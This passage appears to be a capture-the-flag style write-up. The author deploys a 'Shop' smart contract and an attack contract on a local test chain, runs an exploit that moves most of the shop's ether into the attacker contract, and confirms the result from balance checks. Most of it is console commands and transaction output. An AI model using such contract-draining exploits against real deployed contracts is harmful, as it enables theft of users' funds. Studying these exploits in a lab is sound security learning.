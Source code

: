 now i had to put it into execution
first i set up the contracts
```
>>> shop = accounts[0].deploy(Shop)
Transaction sent: 0x42a87cd2e7d0291ec1460bbbeca82a5dfea848f18daf2fb0e928a8503f578aec
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 0
  Shop.constructor confirmed   Block: 1   Gas used: 376955 (3.14%)
  Shop deployed at: 0x3194cBDC3dbcd3E11a07892e7bA5c3394048Cc87

>>> attack = accounts[0].deploy(attack, "0x3194cBDC3dbcd3E11a07892e7bA5c3394048Cc87")
Transaction sent: 0xa0598f3098f3870b9ac60f024f195fb8496ebc55632b84eacc84be59224e77ee
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 1
  attack.constructor confirmed   Block: 2   Gas used: 217352 (1.81%)
  attack deployed at: 0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6
```

then i bought 3 of item 2
```
>>> shop.buy(2, 3, {'from': accounts[0], 'value': Wei("69 ether")})
Transaction sent: 0x320e265ce85386c3f9c655c0932d8087406193fb74829e0d701f80a2e4bba4bc
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 2
  Shop.buy confirmed   Block: 3   Gas used: 42502 (0.35%)

<Transaction '0x320e265ce85386c3f9c655c0932d8087406193fb74829e0d701f80a2e4bba4bc'>
```

now time for the attack
```
>>> shop.buy(0, 1, {'from': accounts[0], 'value': Wei("5 ether")})
Transaction sent: 0x2e3af5d782e6e9f692caf04342a20d751883ca6d2873b9a91a01b79300b780d2
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 3
  Shop.buy confirmed   Block: 4   Gas used: 42490 (0.35%)

<Transaction '0x2e3af5d782e6e9f692caf04342a20d751883ca6d2873b9a91a01b79300b780d2'>
>>> attack.exploit({'from':accounts[0]})
Transaction sent: 0xe9f81c366b37f412feab8d72a190b1dd20ecf8bd0fa058a40ace70260fe6932a
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 4
  attack.exploit confirmed   Block: 5   Gas used: 295064 (2.46%)

<Transaction '0xe9f81c366b37f412feab8d72a190b1dd20ecf8bd0fa058a40ace70260fe6932a'>
```

did it work... we'll see, we check all the balances
```
>>> accounts[0].balance().to("ether")
Fixed('26.000000000000000000')
>>> attack.balance().to("ether")
Fixed('70.000000000000000000')
>>> shop.balance().to("ether")
Fixed('4.000000000000000000')
```

**IT WORKED!!!!**
ok now time to check our inventory
```
>>> shop.refund(2, 3, {'from':accounts[0]})
Transaction sent: 0x179409994c7209855f2c435953c7f8debca771b766f61af773a6651e3a845dd2
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 5
  Shop.refund confirmed   Block: 6   Gas used: 22472 (0.19%)

<Transaction '0x179409994c7209855f2c435953c7f8debca771b766f61af773a6651e3a845dd2'>
>>> accounts[0].balance().to("ether")
Fixed('26.000000000000000000')
>>> attack.balance().to("ether")
Fixed('70.000000000000000000')
>>> shop.balance().to("ether")
Fixed('4.000000000000000000')
```